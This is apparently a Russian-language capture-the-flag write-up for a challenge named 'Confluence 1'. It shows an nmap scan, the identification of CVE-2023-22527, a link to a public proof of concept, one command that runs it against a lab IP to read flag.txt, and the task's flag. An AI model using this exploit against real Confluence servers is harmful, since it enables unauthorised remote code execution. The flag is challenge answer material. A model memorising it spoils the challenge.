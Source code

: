 # Confluence 1

На порту 8090 через nmap находим инстанс Confluence. Погуглив, находим CVE-2023-22527, позволяющую получить RCE. Находим [PoC](https://github.com/Manh130902/CVE-2023-22527-POC) для этой уязвимости. Запускаем скрипт, читаем флаг:
```bash
python3 CVE-2023-22527.py --target http://10.10.1.159:8090 --cmd 'cat flag.txt'
```

**Флаг:** `nto{c0nflu3nc3_15_und3r_4774ck}`